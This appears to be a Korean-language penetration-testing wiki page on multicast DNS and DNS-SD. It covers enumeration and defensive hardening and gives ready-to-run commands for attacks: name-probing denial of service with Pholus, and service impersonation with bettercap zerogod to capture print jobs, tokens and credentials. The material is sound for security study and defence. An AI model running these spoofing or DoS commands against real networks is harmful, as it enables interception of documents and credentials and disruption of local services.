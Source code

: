 # 5353/UDP Multicast DNS (mDNS) 및 DNS-SD

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

Multicast DNS (mDNS)는 유니캐스트 DNS 서버 없이 로컬 링크 내에서 DNS와 유사한 이름 해석 및 서비스 검색을 가능하게 합니다. 이는 UDP/5353 및 멀티캐스트 주소 224.0.0.251 (IPv4)와 FF02::FB (IPv6)를 사용합니다. DNS 서비스 검색 (DNS-SD, 일반적으로 mDNS와 함께 사용됨)은 PTR, SRV 및 TXT 레코드를 통해 서비스를 열거하고 설명하는 표준화된 방법을 제공합니다.
```
PORT     STATE SERVICE
5353/udp open  zeroconf
```
Key protocol details you’ll often leverage during attacks:
- .local 영역의 이름은 mDNS를 통해 해결됩니다.
- QU (Query Unicast) 비트는 멀티캐스트 질문에 대해서도 유니캐스트 응답을 요청할 수 있습니다.
- 구현은 로컬 링크에서 출발하지 않은 패킷을 무시해야 하지만, 일부 스택은 여전히 이를 수용합니다.
- 프로빙/발표는 고유한 호스트/서비스 이름을 강제합니다; 여기서 간섭하면 DoS/“이름 점유” 조건이 발생합니다.

## DNS-SD 서비스 모델

서비스는 .local 아래에서 _<service>._tcp 또는 _<service>._udp로 식별됩니다. 예: _ipp._tcp.local (프린터), _airplay._tcp.local (AirPlay), _adb._tcp.local (Android Debug Bridge) 등. _services._dns-sd._udp.local로 유형을 발견한 후, 발견된 인스턴스를 SRV/TXT/A/AAAA로 해결합니다.

## 네트워크 탐색 및 열거

- nmap 대상 스캔 (호스트에서 직접 mDNS):
```bash
nmap -sU -p 5353 --script=dns-service-discovery <target>
```
- nmap 브로드캐스트 발견 (세그먼트를 듣고 모든 DNS-SD 유형/인스턴스를 열거):
```bash
sudo nmap --script=broadcast-dns-service-discovery
```
- avahi-browse (Linux):
```bash
# 서비스 유형 목록
avahi-browse -bt _services._dns-sd._udp
# 모든 서비스를 탐색하고 호스트/포트로 해결
avahi-browse -art
```
- Apple dns-sd (macOS):
```bash
# 모든 HTTP 서비스 탐색
dns-sd -B _http._tcp
# 서비스 유형 열거
dns-sd -B _services._dns-sd._udp
# 특정 인스턴스를 SRV/TXT로 해결
dns-sd -L "My Printer" _ipp._tcp local
```
- tshark로 패킷 캡처:
```bash
# 실시간 캡처
sudo tshark -i <iface> -f "udp port 5353" -Y mdns
# DNS-SD 서비스 목록 쿼리만
sudo tshark -i <iface> -f "udp port 5353" -Y "dns.qry.name == \"_services._dns-sd._udp.local\""
```

Tip: 일부 브라우저/WebRTC는 로컬 IP를 숨기기 위해 임시 mDNS 호스트 이름을 사용합니다. 랜덤-UUID.local 후보가 네트워크에 보이면, mDNS로 해결하여 로컬 IP로 전환하세요.

## 공격

### mDNS 이름 프로빙 간섭 (DoS / 이름 점유)

프로빙 단계에서 호스트는 이름의 고유성을 확인합니다. 스푸핑된 충돌로 응답하면 새로운 이름을 선택하거나 실패하도록 강제합니다. 이는 서비스 등록 및 발견을 지연시키거나 방지할 수 있습니다.

Example with Pholus:
```bash
# Block new devices from taking names by auto-faking responses
sudo python3 pholus3.py <iface> -afre -stimeout 1000
```
### 서비스 스푸핑 및 사칭 (MitM)

광고된 DNS-SD 서비스(프린터, AirPlay, HTTP, 파일 공유)를 사칭하여 클라이언트가 당신에게 연결하도록 유도합니다. 이는 특히 다음에 유용합니다:
- _ipp._tcp 또는 _printer._tcp를 스푸핑하여 문서를 캡처합니다.
- 클라이언트를 HTTP/HTTPS 서비스로 유인하여 토큰/쿠키를 수집하거나 페이로드를 전달합니다.
- Windows 클라이언트가 스푸핑된 서비스에 대한 인증을 협상할 때 NTLM 릴레이 기술과 결합합니다.

bettercap의 zerogod 모듈(mDNS/DNS-SD 스푸퍼/사칭자) 사용:
```bash
# Start mDNS/DNS-SD discovery
sudo bettercap -iface <iface> -eval "zerogod.discovery on"

# Show all services seen from a host
> zerogod.show 192.168.1.42

# Impersonate all services of a target host automatically
> zerogod.impersonate 192.168.1.42

# Save IPP print jobs to disk while impersonating a printer
> set zerogod.ipp.save_path ~/.bettercap/zerogod/documents/
> zerogod.impersonate 192.168.1.42

# Replay previously captured services
> zerogod.save 192.168.1.42 target.yml
> zerogod.advertise target.yml
```
Also see generic LLMNR/NBNS/mDNS/WPAD spoofing and credential capture/relay workflows:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

### Notes on recent implementation issues (useful for DoS/persistence during engagements)

- Avahi reachable-assertion 및 D-Bus 충돌 버그(2023)는 Linux 배포판에서 avahi-daemon을 종료시킬 수 있으며, 이는 재시작할 때까지 대상 호스트에서 서비스 검색을 방해합니다.
- Cisco IOS XE Wireless LAN Controller mDNS 게이트웨이 DoS(2024, CVE-2024-20303)는 인접 공격자가 높은 CPU 사용량을 유도하고 AP를 연결 해제할 수 있게 합니다. VLAN 간에 mDNS 게이트웨이를 발견하면 잘못된 형식이나 높은 비율의 mDNS에 대한 안정성에 유의하십시오.

## Defensive considerations and OPSEC

- Segment boundaries: 보안 구역 간에 224.0.0.251/FF02::FB를 라우팅하지 마십시오. mDNS 게이트웨이가 명시적으로 필요하지 않는 한 그렇습니다. 검색을 브리징해야 하는 경우, 허용 목록과 비율 제한을 선호하십시오.
- Windows endpoints/servers:
- mDNS를 통한 이름 해석을 완전히 비활성화하려면 레지스트리 값을 설정하고 재부팅하십시오:
```
HKLM\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters\EnableMDNS = 0 (DWORD)
```
- 관리되는 환경에서는 기본 제공 “mDNS (UDP-In)” Windows Defender 방화벽 규칙(최소한 도메인 프로필에서)을 비활성화하여 인바운드 mDNS 처리를 방지하면서 홈/로밍 기능을 유지하십시오.
- 최신 Windows 11 빌드/GPO 템플릿에서는 “Computer Configuration > Administrative Templates > Network > DNS Client > Configure multicast DNS (mDNS) protocol” 정책을 사용하고 이를 비활성화로 설정하십시오.
- Linux (Avahi):
- 필요하지 않을 때 게시를 잠그십시오: `disable-publishing=yes`를 설정하고 `/etc/avahi/avahi-daemon.conf`에서 `allow-interfaces=` / `deny-interfaces=`로 인터페이스를 제한하십시오.
- `check-response-ttl=yes`를 고려하고 엄격히 필요하지 않는 한 `enable-reflector=yes`를 피하십시오; 반사할 때는 `reflect-filters=` 허용 목록을 선호하십시오.
- macOS: 특정 서브넷에 대해 Bonjour 검색이 필요하지 않을 때 호스트/네트워크 방화벽에서 인바운드 mDNS를 제한하십시오.
- Monitoring: `_services._dns-sd._udp.local` 쿼리의 비정상적인 급증이나 중요한 서비스의 SRV/TXT의 갑작스러운 변화를 경고하십시오; 이는 스푸핑 또는 서비스 사칭의 지표입니다.

## Tooling quick reference

- nmap NSE: `dns-service-discovery` 및 `broadcast-dns-service-discovery`.
- Pholus: 능동 스캔, 역 mDNS 스윕, DoS 및 스푸핑 도우미.
```bash
# Passive sniff (timeout seconds)
sudo python3 pholus3.py <iface> -stimeout 60
# Enumerate service types
sudo python3 pholus3.py <iface> -sscan
# Send generic mDNS requests
sudo python3 pholus3.py <iface> --request
# Reverse mDNS sweep of a subnet
sudo python3 pholus3.py <iface> -rdns_scanning 192.168.2.0/24
```
- bettercap zerogod: mDNS/DNS-SD 서비스를 발견하고, 저장하고, 광고하고, 사칭합니다(위의 예를 참조하십시오).

## Spoofing/MitM

이 서비스에서 수행할 수 있는 가장 흥미로운 공격은 클라이언트와 실제 서버 간의 통신에서 MitM을 수행하는 것입니다. 민감한 파일(프린터와의 통신을 MitM)이나 자격 증명(Windows 인증)을 얻을 수 있을지도 모릅니다.\
자세한 내용은 확인하십시오:

{{#ref}}
../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md
{{#endref}}

## References

- [Practical IoT Hacking: The Definitive Guide to Attacking the Internet of Things](https://books.google.co.uk/books/about/Practical_IoT_Hacking.html?id=GbYEEAAAQBAJ&redir_esc=y)
- [Nmap NSE: broadcast-dns-service-discovery](https://nmap.org/nsedoc/scripts/broadcast-dns-service-discovery.html)
- [bettercap zerogod (mDNS/DNS-SD discovery, spoofing, impersonation)](https://www.bettercap.org/modules/ethernet/zerogod/)

{{#include ../banners/hacktricks-training.md}}
